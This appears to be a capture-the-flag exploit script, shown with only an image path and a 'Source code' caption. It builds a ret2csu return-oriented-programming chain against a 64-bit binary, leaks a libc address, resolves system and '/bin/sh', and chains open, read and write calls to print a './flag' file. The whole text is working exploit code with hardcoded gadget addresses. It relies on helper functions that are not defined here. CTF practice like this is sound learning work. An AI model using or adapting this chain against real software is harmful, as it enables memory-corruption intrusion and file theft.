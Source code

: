 ```bash
bss=0x601200
csu_end_addr=0x40095A
csu_front_addr=0x400940
rdi = 0x400963
rsi = 0x400961 
ret = 0x400696 
def csu(rbx, rbp, r12, r15, r14, r13, last):
    # pop rbx,rbp,r12,r13,r14,r15
    # rbx should be 0,
    # rbp should be 1,enable not to jump
    # r12 should be the function we want to call()
    # rdi=edi=r15d
    # rsi=r14
    # rdx=r13
    # csu(0, 1, fun_got, rdx, rsi, rdi, last)
    payload = ""
    payload += p64(csu_end_addr) 
    payload += p64(rbx)+p64(rbp)+p64(r12)+p64(r13)+p64(r14)+p64(r15)
    payload += p64(csu_front_addr)
    payload += p64(0)+p64(0xffffffffffd24620-0xd80+0xf0)+p64(0x601020+0x3d)+p64(read_got)*4
    payload += p64(last)    
    return payload



pl=p64(read_got)*8+p64(bss)
pl+=csu(0, 1, read_got, 0x100, elf.bss()+0x100, 0, magic_gadget)+p64(0x400788)+p64(elf.bss()+0x300)+p64(0x4008DC)#+p64(0x400788)+p64(elf.bss()+0x300)#+csu(0,1,0x601020,0x40,elf.got['read'],1,)

sl(pl)

#sl('a')
s('./flag\x00')
duan()
pl2 = '\x00'*0x48+csu(0,1,0x601020,0x50,elf.got['read'],1,0x4008DC)
s(pl2)




read_addr = u64(p.recvuntil('\x7f')[-6:].ljust(8,b'\x00'))
print(hex(read_addr))

libc_base = read_addr - libc.sym["read"]
print(hex(libc_base))
system = libc_base + libc.symbols['system']
binsh = libc_base+next(libc.search(b"/bin/sh\x00"))
openn = libc_base + libc.symbols['open']
read = libc_base + libc.symbols['read']
write = libc_base + libc.symbols['write']
rdx = libc_base+0x1b96
rsi = libc_base+0x023a6a


pl3 = '\x00'*0x48+p64(rdi)+p64(elf.bss()+0x100)+p64(rsi)+p64(0)+p64(rdx)+p64(0)+p64(openn)+p64(rdi)+p64(3)+p64(rsi)+p64(elf.bss()+0x400)+p64(rdx)+p64(0x50)+p64(read)+p64(rdi)+p64(1)+p64(rsi)+p64(elf.bss()+0x400)+p64(rdx)+p64(0x50)+p64(write)#+p64()+p64()+p64()+p64()+p64()+p64()+p64()+p64()+p64()+p64()+p64()



sl(pl3)

```